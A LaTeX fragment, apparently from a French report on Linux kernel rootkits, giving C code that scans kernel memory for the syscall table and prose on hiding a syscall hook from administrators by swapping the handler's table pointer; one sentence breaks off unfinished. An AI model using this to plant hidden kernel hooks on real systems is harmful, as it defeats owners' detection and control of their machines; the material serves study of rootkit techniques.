 \documentclass[12pt]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}
#if defined(__i386__) /* x86 */
    #define SCT_START_CHECK 0xc0000000
    #define SCT_END_CHECK   0xd0000000
    typedef unsigned int ptr_t;
#else /* x86_64 */
    #define SCT_START_CHECK 0xffffffff81000000
    #define SCT_END_CHECK   0xffffffffa2000000
    typedef unsigned long ptr_t;
#endif /* arch */

ptr_t find_syscall_table(void) {
    ptr_t** sc_table;
    ptr_t addr = SCT_START_CHECK;
    
    while (addr < SCT_END_CHECK) {
        sc_table = (ptr_t**) addr;
        if (sc_table[__NR_close] == (ptr_t*) sys_close) {
            return (ptr_t) &sc_table[0];
        }

        addr += sizeof(void *);
    }
    return NULL;
}
\end{verbatim}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}

        Une fois l'adresse de la table des appels système connue, il ne reste plus qu'à

        Nous avons décrit ici une méthode simple et peu furtive permettant de se hooker à la table des appels système et de détourner n'importe lequel de ses élements. Il existe cependant des techniques plus avancées remontant la séquence d'exécution d'un appel système.

        Par exemple, il est possible de détecter la méthode détaillée ci-dessus en vérifiant les adresses contenues dans la table des appels système. Pour contourner la détection, nous pouvons nous attaquer au gestionnaire des appels système en remplaçant dans ce dernier l'adresse de la table utilisée. Ainsi, il suffit de copier la table des appels système et de changer le pointeur utilisé dans le gestionnaire pour que ce dernier utilise notre table détounée au lieu de l'originale. Ainsi, lorsque l'administrateur tentera de détecter notre hook en regardant la table originale, il échouera, car cette dernière n'a pas été modifiée.

        De la même manière, que précédemment, si l'utilisateur légitime vérifie le pointeur utilisé par le gestionnaire des appels système, il se rendra compte que la table utilisée diffère de l'originale. 


    \subsection{Détournement du \texttt{Virtual File System}}
    \label{sec:vfs}
    
\end{document}
